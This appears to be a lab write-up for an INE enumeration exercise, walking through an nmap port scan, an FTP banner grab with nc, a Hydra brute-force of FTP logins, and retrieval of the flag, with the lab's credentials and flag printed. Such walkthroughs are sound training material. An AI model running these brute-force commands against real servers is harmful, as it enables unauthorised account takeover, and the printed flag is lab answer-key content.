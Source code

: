 # FTP Login Brute Force & Banner Grabbing

## Challenge Title
Discover Hidden FTP Service, Extract Users from Banner, Brute Force Credentials, and Retrieve the Flag.

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Identify hidden services using Nmap, enumerate users from FTP banner, brute force FTP credentials, and extract flag3 from the user directory.

---

## Tools Used

- `nmap` – for service enumeration
- `nc` – for FTP banner grabbing
- `hydra` – for brute-force attacks
- `ftp` – to retrieve flag manually

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Nmap Scan

Initial scan shows SMB and SSH.

```bash
nmap -sV target.ine.local
```
To discover all services, use full port scan:

```bash
nmap -p- -sV target.ine.local
```
We find an FTP service on port `5554`.
### 🔹 Step 2: Grab FTP Banner

```bash
nc target.ine.local 5554
```
The banner reveals three potential usernames: ashley, alice, amanda.

### 🔹 Step 3: Create User Wordlist

```bash
nano users.txt
```
```text
alice
ashley
amanda
```

### 🔹 Step 4: Brute Force FTP Credentials
Using Hydra:
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
Success! Found valid credentials:
- Username: alice
- Password: pretty

### 🔹 Step 5: Access FTP and Download Flag
```bash
ftp target.ine.local 5554
```
Login with `alice:pretty`
Use `ls` to list and `get flag3.txt` to download.

### 🔹 Step 6: View Retrieved Flag
```bash
cat flag3.txt
```
Output:
FLAG3{232c4bdafc8844129123cfaeaa5c4e68}

## Conclusion
Through enumeration, service discovery, and brute-forcing techniques, we were able to extract sensitive credentials and retrieve the flag from a hidden FTP service.

## Files Included
- `users.txt` – Created for brute-forcing
- `1.png` → `8.png` – Screenshots documenting each step
